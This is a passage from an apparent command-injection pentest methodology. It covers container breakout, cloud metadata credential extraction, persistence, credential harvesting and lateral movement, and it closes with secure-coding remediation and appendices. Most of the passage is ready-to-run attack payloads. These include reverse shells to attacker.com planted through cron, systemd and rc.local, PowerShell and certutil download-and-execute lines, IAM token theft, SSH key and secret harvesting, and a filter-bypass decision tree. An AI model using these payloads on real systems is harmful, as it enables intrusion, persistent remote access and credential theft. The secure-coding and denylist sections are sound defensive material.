### 5.3 Container Escape Detection

**Container Fingerprinting:**
```
; ls -la /.dockerenv 2>/dev/null
; cat /proc/1/cgroup | grep -i docker
; mount | grep -E "(overlay|aufs)" | head -5
; env | grep -i kube
; cat /proc/self/status | grep -i seccomp
; cat /proc/self/status | grep -i cap
```

**Container Breakout Attempts:**
```
; fdisk -l 2>/dev/null
; lsblk
; mount | grep -E "(/dev/sd|/dev/xvd|/dev/nvme)"
; cat /proc/1/environ 2>/dev/null
; nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh 2>/dev/null
```

### 5.4 Cloud Metadata Extraction

**AWS Metadata Service:**
```
; curl http://169.254.169.254/latest/meta-data/
; curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
; curl http://169.254.169.254/latest/user-data
```

**Azure Metadata Service:**
```
; curl "http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata: true"
```

**GCP Metadata Service:**
```
; curl "http://metadata.google.internal/computeMetadata/v1/" -H "Metadata-Flavor: Google"
; curl "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"
```

**Oracle Cloud:**
```
; curl http://169.254.169.254/opc/v1/instance/
```

**Alibaba Cloud:**
```
; curl http://100.100.100.200/latest/meta-data/
```

### 5.5 SSRF-to-Command Injection Pivoting

If command injection allows outbound requests, pivot to internal services:
```
; curl http://localhost:8080/admin
; curl http://127.0.0.1:6379 -d "INFO\r\n"
; curl http://internal.service.local/api/v1/users
; wget -qO- http://169.254.169.254/latest/meta-data/
```

---

## Phase 6: Post-Exploitation & Impact Assessment

### 6.1 Persistence Mechanisms

**Cron Jobs (Unix):**
```
; (crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'") | crontab -
; echo "* * * * * root /tmp/reverse.sh" >> /etc/crontab
; echo "@reboot /tmp/reverse.sh" >> /etc/cron.d/system-update
```

**Scheduled Tasks (Windows):**
```
; schtasks /create /tn "SystemUpdate" /tr "powershell -ep bypass -c 'IEX(New-Object Net.WebClient).downloadString(\"http://attacker.com/payload.ps1\")'" /sc minute /mo 1
; at 23:59 /every:M,T,W,Th,F,S,Su "C:\Windows\Temp\payload.exe"
```

**Startup Items:**
```
; echo "bash -i >& /dev/tcp/attacker.com/4444 0>&1" >> /etc/rc.local
; copy payload.exe "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
```

**Systemd Services:**
```
; cat > /etc/systemd/system/update.service << 'EOF'
[Unit]
Description=System Update
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
; systemctl enable update.service
```

### 6.2 Credential Harvesting

**Memory Dumps:**
```
; strings /proc/self/environ
; strings /proc/self/cmdline
; cat /proc/self/maps
; gdb -p $$ -ex "dump memory /tmp/mem.dump 0x400000 0x500000" -ex "quit" 2>/dev/null
```

**Configuration Files:**
```
; find / -name "*.conf" -o -name "*.config" -o -name "*.ini" -o -name "*.yaml" -o -name "*.yml" -o -name "*.json" -o -name "*.xml" -o -name "*.env" 2>/dev/null | xargs grep -l "password\|passwd\|secret\|key\|token" 2>/dev/null
; grep -r "password" /var/www/html/ 2>/dev/null
; grep -r "DB_PASSWORD" /var/www/ 2>/dev/null
; cat /var/www/html/.env 2>/dev/null
; cat /var/www/html/wp-config.php 2>/dev/null
; cat /var/www/html/config.php 2>/dev/null
; cat /etc/apache2/sites-enabled/* 2>/dev/null
; cat /etc/nginx/sites-enabled/* 2>/dev/null
```

**SSH Keys:**
```
; find / -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null
; cat /root/.ssh/authorized_keys 2>/dev/null
; cat /home/*/.ssh/authorized_keys 2>/dev/null
```

**Database Credentials:**
```
; cat /etc/mysql/debian.cnf 2>/dev/null
; cat /root/.my.cnf 2>/dev/null
; cat /var/lib/postgresql/.pgpass 2>/dev/null
```

### 6.3 Lateral Movement Reconnaissance

**Network Discovery:**
```
; ip addr
; ifconfig
; route -n
; netstat -an
; ss -tulnp
; cat /etc/resolv.conf
; cat /etc/hosts
; arp -a
; ip neigh
```

**Internal Service Scanning:**
```
; for port in 22 80 443 3306 5432 6379 8080 8443 9200; do timeout 1 bash -c "echo >/dev/tcp/127.0.0.1/$port" 2>/dev/null && echo "127.0.0.1:$port OPEN"; done
; for ip in $(seq 1 254); do ping -c 1 -W 1 192.168.1.$ip | grep "ttl="; done
```

---

## Phase 7: Remediation Verification

### 7.1 Secure Coding Patterns

**Language-Specific Secure Alternatives:**

**PHP:**
```php
// VULNERABLE:
system("ping -c 4 " . $_GET['host']);

// SECURE - Use escapeshellarg():
system("ping -c 4 " . escapeshellarg($_GET['host']));

// SECURE - Use array-based execution (no shell):
exec(["ping", "-c", "4", $_GET['host']]);

// SECURE - Use native functions:
gethostbyname($_GET['host']);
```

**Python:**
```python
# VULNERABLE:
os.system("ping -c 4 " + user_input)

# SECURE - Use subprocess with list:
subprocess.run(["ping", "-c", "4", user_input], capture_output=True)

# SECURE - Use shlex.quote():
subprocess.run("ping -c 4 " + shlex.quote(user_input), shell=True)

# BEST - Avoid shell=True entirely:
subprocess.run(["ping", "-c", "4", user_input])
```

**Node.js:**
```javascript
// VULNERABLE:
exec("ping -c 4 " + req.query.host);

// SECURE - Use execFile():
execFile("ping", ["-c", "4", req.query.host]);

// SECURE - Use spawn():
const proc = spawn("ping", ["-c", "4", req.query.host]);
```

**Java:**
```java
// VULNERABLE:
Runtime.getRuntime().exec("ping -c 4 " + userInput);

// SECURE - Use array overload:
Runtime.getRuntime().exec(new String[]{"ping", "-c", "4", userInput});

// SECURE - Use ProcessBuilder:
new ProcessBuilder("ping", "-c", "4", userInput).start();
```

**C# (.NET):**
```csharp
// VULNERABLE:
Process.Start("cmd.exe", "/c ping " + userInput);

// SECURE - Use argument list:
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "ping";
psi.ArgumentList.Add("-c");
psi.ArgumentList.Add("4");
psi.ArgumentList.Add(userInput);
Process.Start(psi);
```

### 7.2 Input Validation Patterns

**Allowlist Approach:**
```
- Allow only alphanumeric characters: ^[a-zA-Z0-9]+$
- Allow only valid hostnames: ^[a-zA-Z0-9][-a-zA-Z0-9]*(\.[a-zA-Z0-9][-a-zA-Z0-9]*)*$
- Allow only valid IP addresses with regex validation
- Reject any input containing shell metacharacters: ;|&$()`<>{}[]*?~
```

**Denylist Approach (Defense in Depth):**
```
Blocked characters: ; | & $ ` ( ) < > { } [ ] * ? ~ \r \n \x00
Blocked strings: .. // \\ $( ${ ` <@ ( @ %0a %0d
```

### 7.3 Architecture-Level Mitigations

1. **Principle of Least Privilege:** Run web services as non-privileged users (www-data, nginx, IIS AppPool)
2. **Sandboxing:** Use chroot jails, containers, or seccomp-bpf to restrict system calls
3. **WAF Rules:** Deploy ModSecurity/CloudFlare rules for common command injection patterns
4. **Network Segmentation:** Prevent outbound connections from application servers
5. **Disable Dangerous Functions:**
   - PHP: `disable_functions = system, exec, passthru, shell_exec, popen, proc_open`
   - Python: Avoid `os.system`, `subprocess.call` with `shell=True`
6. **Parameterization:** Treat all user input as data, never as executable code

### 7.4 Verification Checklist

- [ ] All user-supplied input passed to OS commands is sanitized or parameterized
- [ ] No shell execution functions are used where native alternatives exist
- [ ] Application runs with minimal required privileges
- [ ] Outbound connections from application servers are restricted
- [ ] Dangerous PHP functions are disabled in configuration
- [ ] WAF rules detect common command injection patterns
- [ ] Error messages do not reveal system paths or command structures
- [ ] File upload functionality does not pass filenames to shell commands
- [ ] Log rotation and system utilities do not process user-controlled filenames
- [ ] Scheduled tasks and cron jobs do not include user input in commands

---

## Appendix A: Quick Reference Payloads

### Unix/Linux One-Liners
```
; id
; uname -a
; cat /etc/passwd
; ls -la
; env
; ps auxww
; netstat -an
; ifconfig
; curl http://attacker.com/$(whoami)
; bash -i >& /dev/tcp/attacker.com/4444 0>&1
; python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
; wget -qO- http://attacker.com/payload | bash
```

### Windows One-Liners
```
; whoami
; ver
; dir
; type C:\Windows\win.ini
; net user
; ipconfig /all
; netstat -an
; tasklist
; powershell -command "IEX(New-Object Net.WebClient).downloadString('http://attacker.com/payload.ps1')"
; certutil -urlcache -split -f http://attacker.com/payload.exe C:\Windows\Temp\payload.exe
```

### Blind Detection
```
; sleep 10
; ping -c 10 127.0.0.1
; timeout 10 sleep 10
; powershell -command "Start-Sleep -s 10"
```

---

## Appendix B: Common Vulnerable Patterns

| Function/Language | Vulnerable Pattern | Secure Alternative |
|---|---|---|
| PHP `system()` | `system("ping $host")` | `system("ping " . escapeshellarg($host))` |
| PHP `exec()` | `exec("nslookup $domain")` | `exec(["nslookup", $domain])` |
| Python `os.system()` | `os.system(f"ping {host}")` | `subprocess.run(["ping", host])` |
| Python `subprocess.call()` | `subprocess.call(f"ping {host}", shell=True)` | `subprocess.call(["ping", host])` |
| Node.js `child_process.exec()` | `exec("ping " + host)` | `execFile("ping", [host])` |
| Java `Runtime.exec()` | `Runtime.exec("ping " + host)` | `Runtime.exec(new String[]{"ping", host})` |
| Ruby `system()` | `system("ping #{host}")` | `system("ping", host)` |
| Perl `system()` | `system("ping $host")` | `system("ping", $host)` |
| Go `exec.Command()` | `exec.Command("sh", "-c", cmd)` | `exec.Command("ping", host)` |
| C# `Process.Start()` | `Process.Start("cmd", "/c ping " + host)` | `ProcessStartInfo` with `ArgumentList` |

---

## Appendix C: Bypass Decision Tree

```
Input blocked?
├── Space blocked? → Use ${IFS}, $IFS$9, < redirection, {cmd,arg}
├── Slash blocked? → Use cd/pwd traversal, $(printf), wildcard globs
├── Command blocked? → Use \ escape, 'quotes', $() nesting, alternative commands
├── Keyword blocked? → Use wildcards (/???/??t), brace expansion, reverse strings
├── Encoding detected? → Try double-encoding, Unicode, overlong UTF-8
├── Length limited? → Use short payloads (`id`, `wget|sh`)
└── All blocked? → Try time-delay blind, DNS exfiltration, OOB callbacks
```

---

## Appendix D: Tools & Automation

**Manual Testing Tools:**
- Burp Suite (Intruder with payload lists)
- OWASP ZAP (Fuzzer with command injection payloads)
- Commix (Automated command injection exploitation)
- SQLMap (`--os-shell` for stacked query command execution)

**Payload Lists:**
- SecLists: `CommandInjection.txt`, `UnixCommands.txt`
- PayloadsAllTheThings: Command Injection section
- FuzzDB: OS command injection vectors

**Listener Setup:**
```bash
# Netcat listener
nc -lvnp 4444

# Python HTTP server for exfiltration
python3 -m http.server 80

# DNS server for OOB exfiltration
sudo dnsmasq -d -q --log-queries --log-facility=-

# Intercepting HTTPS for blind callbacks
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
python3 -c "import http.server, ssl; s=http.server.HTTPServer(('0.0.0.0',443),http.server.SimpleHTTPRequestHandler); s.socket=ssl.wrap_socket(s.socket,keyfile='key.pem',certfile='cert.pem'); s.serve_forever()"
```

